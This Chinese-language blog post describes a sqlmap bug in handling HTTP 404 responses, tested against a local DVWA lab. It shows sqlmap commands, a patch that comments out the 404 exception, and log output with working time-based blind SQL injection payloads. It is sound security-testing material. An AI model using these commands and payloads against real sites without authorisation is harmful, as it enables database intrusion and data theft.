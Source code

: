 ```yaml
---
layout:     post
title:      sqlmap对状态码404处理的bug
date:       2017-08-20
summary:    sqlmap对状态码404处理的bug
categories: web
tags:
 - sqlmap
 - python
---
```


### About

sqlmap对页面遇到404响应码后直接抛出一个异常并退出sqlmap不再进行后续的paylaod测试,在用sqlmap测试sql注入点的时候,一
般用到--batch参数来节省时间,这种情况下sqlmap有一处对http状态码404的处理不当导致无法测出注入点的bug

### Detail

在爬虫时get请求的url可轻易爬到,但是post请求的url及post的数据的取得需要探测html中有没有表单相关的关键字,并通过表单
来构造post参数的值并提交来获取后续返回内容,如下例中详情:

安装dvwa设置level=low,测试`SQL Injection(Blind)`这一项时,参数是通过表单来提交的,点击`submit`提交后会将输入框`User
ID`中的内容以get请求发送到服务器,例如在文本框中输入1则浏览器将对应访问`http://192.168.8.190/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#`

<img src="https://raw.githubusercontent.com/3xp10it/pic/master/sqlmap404bug-1.png">

尝试用sqlmap跑出这个注入点,语句如下:

    sqlmap -u "http://192.168.8.190/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie='PHPSESSID=glgav33fgc0l1hoikg5f267j51;security=low'
这样是可以跑出来的,但是要提高效率用工具自动发现这个漏洞时,一般这样用sqlmap:

    sqlmap -u "http://192.168.8.190/dvwa/vulnerabilities/sqli_blind/?id=&Submit=Submit#" --forms -v 3 --cookie='...'
由于这里的id参数通过爬虫无法获得,因为这个id参数的值是通过表单提交的,爬虫最多可得到的url为:
    
    http://192.168.8.190/dvwa/vulnerabilities/sqli_blind/?id=&Submit=Submit#
上图中的`Submit`按钮对应的应该是js处理的动作,js将表单通过get请求发送到服务器,这种情况下,需要用selenium+phantomjs
来获得上面的url(或者使用sqlmap中的--forms参数来捕获这样的表单),而就算得到了url,由于这个url中的`id=`,也即id值为空,
这种情况下,sqlmap的--batch参数的处理是随机赋值给id并测试各种payload(eg,id=1389),然而dvwa中的这个页面在服务器上的
处理并不一般,如果用户提交的id参数在服务器上没有查询到,服务器会响应404状态码(可能一般waf也会这样做),而sqlmap遇到
404状态码,直接就抛出异常并退出了,这样导致无法用sqlmap的--batch参数测出这个sql注入点

其实如果用selenium+phantomjs得到了url`http://192.168.8.190/dvwa/vulnerabilities/sqli_blind/?id=&Submit=Submit#`后
如果服务器正常响应查询(这里的dvwa不正常响应,对查不到的统一返回404状态码),用sqlmap是可以检测到这种不带具体值的参数
类型url的注入点的,但是要设置--risk=3,默认的sqlmap的risk值为1,为1时sqlmap不会测试`' or [sqli] and '1'='1`(要测出不
带参数值的参数的注入点则要通过or来测试),也即要发挥sqlmap的功能最好设置`--batch --risk=3 --forms`.试试直接用这种方
法测试上面的注入点(在dvwa中对应的页面为`http://192.168.8.190/dvwa/vulnerabilities/sqli_blind/`):

```
/tmp/sqlmap [master] » python2 sqlmap.py -u "192.168.8.190/dvwa/vulnerabilities/sqli_blind/" --forms -v 3 --cookie='PHPSESSID=glgav33fgc0l1hoikg5f267j51;security=low' --risk 3 --batch
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.1.8.6#dev}
|_ -| . [(]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 14:40:30

[14:40:30] [DEBUG] cleaning up configuration parameters
[14:40:30] [DEBUG] setting the HTTP timeout
[14:40:30] [DEBUG] setting the HTTP Cookie header
[14:40:30] [DEBUG] creating HTTP requests opener object
[14:40:30] [DEBUG] resolving hostname '192.168.8.190'
[14:40:30] [INFO] testing connection to the target URL
[14:40:30] [DEBUG] declared web page charset 'utf-8'
[14:40:30] [INFO] searching for forms
[14:40:30] [DEBUG] initializing the knowledge base
[#1] form:
GET http://192.168.8.190:80/dvwa/vulnerabilities/sqli_blind/?id=&Submit=Submit
Cookie: PHPSESSID=glgav33fgc0l1hoikg5f267j51;security=low
do you want to test this form? [Y/n/q]
> Y
[14:40:30] [DEBUG] used the default behaviour, running in batch mode
Edit GET data [default: id=&Submit=Submit]: id=&Submit=Submit
[14:40:30] [DEBUG] used the default behaviour, running in batch mode
do you want to fill blank fields with random values? [Y/n] Y
[14:40:30] [DEBUG] used the default behaviour, running in batch mode
[14:40:30] [INFO] resuming back-end DBMS 'mysql'
[14:40:30] [INFO] using '/var/root/.sqlmap/output/results-08202017_0240pm.csv' as the CSV results file in multiple targets mode
[14:40:30] [DEBUG] resolving hostname '192.168.8.190'
[14:40:30] [DEBUG] declared web page charset 'utf-8'
[14:40:30] [CRITICAL] page not found (404)
[14:40:30] [WARNING] HTTP error codes detected during run:
404 (Not Found) - 1 times
[14:40:30] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/var/root/.sqlmap/output/results-08202017_0240pm.csv'

[*] shutting down at 14:40:30
```

发现sqlmap跑不出来,尝试修改sqlmap代码,结果中有关键字`page not found (404)`,于是定位相关代码:

    cd /tmp/sqlmap && grep -r "page not found" .

结果如下:

```
./lib/request/connect.py:                    errMsg = "page not found (%d)" % code
./lib/request/connect.py:                    debugMsg = "page not found (%d)" % code
./lib/utils/crawler.py:                    if "page not found" in getSafeExString(ex):
```

于是修改./lib/request/connect.py中代码:

```
elif ex.code == httplib.NOT_FOUND:
    if raise404:
        errMsg = "page not found (%d)" % code
        raise SqlmapConnectionException(errMsg)
    else:
        debugMsg = "page not found (%d)" % code
        singleTimeLogMessage(debugMsg, logging.DEBUG)
```

将其中的raise SqlmapConnectionException(errMsg)注释掉后再重新用刚才的sqlmap语句测试可测出这个注入点,详情如下:

```
/tmp/sqlmap [master●] » python2 sqlmap.py -u "192.168.8.190/dvwa/vulnerabilities/sqli_blind/" --forms -v 3 --cookie='PHPSESSID=glgav33fgc0l1hoikg5f267j51;security=low' --risk 3 --batch
[14:48:41] [DEBUG] checking for filtered characters
[14:48:41] [PAYLOAD] OOFt' OR 6597=IF((3988>3987),SLEEP(5),6597) AND 'sIjt'='sIjt
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
[14:49:06] [DEBUG] used the default behaviour, running in batch mode
sqlmap identified the following injection point(s) with a total of 146 HTTP(s) requests:
    ---
Parameter: id (GET)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: id=OOFt' OR SLEEP(5) AND 'CaKs'='CaKs&Submit=Submit
    Vector: OR [RANDNUM]=IF(([INFERENCE]),SLEEP([SLEEPTIME]),[RANDNUM])
    ---
do you want to exploit this SQL injection? [Y/n] Y
[14:49:06] [DEBUG] used the default behaviour, running in batch mode
[14:49:06] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.25
back-end DBMS: MySQL >= 5.0.12
[14:49:06] [WARNING] HTTP error codes detected during run:
404 (Not Found) - 131 times
[14:49:06] [INFO] you can find results of scanning in multiple targets mode inside the CSV file
'/var/root/.sqlmap/output/results-08202017_0246pm.csv'

[*] shutting down at 14:49:06
```

